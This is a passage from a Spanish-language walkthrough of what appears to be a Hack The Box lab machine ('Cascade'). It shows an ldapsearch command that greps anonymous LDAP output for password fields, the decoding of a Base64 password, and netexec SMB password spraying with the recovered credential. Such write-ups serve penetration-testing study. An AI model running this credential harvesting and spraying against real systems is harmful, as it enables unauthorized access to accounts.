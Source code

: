 Podemos realizar la misma enumeración a través de la herramienta de **ldapsearch**.

{% code overflow="wrap" %}
```bash
ldapsearch -x -H ldap://10.10.10.182 -b "DC=cascade,DC=local" | grep -ie "pwd\|password"
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

Probaremos a descodificar el texto encontrado en Base64 y parece que obtenemos lo que parece ser una contraseña.

<figure><img src="../../../../../.gitbook/assets/1266_vmware_4A2wj0ZIxP.png" alt=""><figcaption></figcaption></figure>

Probaremos de enumerar a todos los usuarios que disponemos para ver si uno de ellos se puede llegar a autenticar. Verificamos que el usuario "r.thompson" se puede autenticar con dichas credenciales.

{% code overflow="wrap" %}
```bash
netexec smb 10.10.10.182 -u valid_domain_users.txt -p 'rY4n5eva' --continue-on-success

netexec smb 10.10.10.182 -u users.txt -p 'rY4n5eva' --continue-on-success
```
{% endcode %}

